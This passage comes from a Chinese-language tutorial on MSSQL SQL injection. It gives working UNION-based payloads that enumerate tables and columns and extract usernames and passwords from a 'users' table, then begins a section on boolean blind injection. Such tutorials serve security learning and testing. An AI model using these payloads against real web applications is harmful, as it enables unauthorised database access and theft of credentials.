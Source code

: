 ```sql
select top 1 table_name from master.information_schema.tables
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_o7vs0XKT.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_Moqw63Vy.png)

**查字段**

```basic
// 支持跨库查询
?id=-2' union select top 1 1,name,'3' from test..syscolumns where id = (select id from test..sysobjects where name='users')--+
// 或者
?id=-2' union select top 1 1,column_name,'3' from test.information_schema.columns where table_name = 'users'--+
// 或者,但是以下不支持跨库查询
?id=-2' union select top 1 1,name,'3' from test..syscolumns where id = OBJECT_ID('users')--+
// 或者
?id=-2' union select top 1 1,(select top 1 col_name(object_id('users'),1) from sysobjects),3--+
?id=-2' union select top 1 1,(select top 1 col_name(object_id('users'),{i}) from sysobjects),3--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_p6Zbz4Mu.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_ZF5lC4eX.png)



**查值**
在已知表名，列名的情况下，直接使用select 语句查询即可

```sql
?id=-2' union select top 1 1,username,password from users--+
```
## 盲注
### 布尔盲注
布尔盲注其实和mysql布尔盲注一样，通过页面对永真条件，`or 1=1` 与 永假条件，`and 1=2` 返回的内容是否存在差异，进行判断是否可以进行布尔盲注。通常返回存在/不存在两个结果，就可以判断是否存在布尔盲注
```sql
-- 语句如下，如果condition为真，那么整条语句 where 语句则恒真
select * from users where username=$username and (condition)
```
and 1=1 恒真

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_Ndf1Fv2E.png)

and 1=2 恒假

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_bRGhkyx0.png)

利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据
布尔盲注常用函数

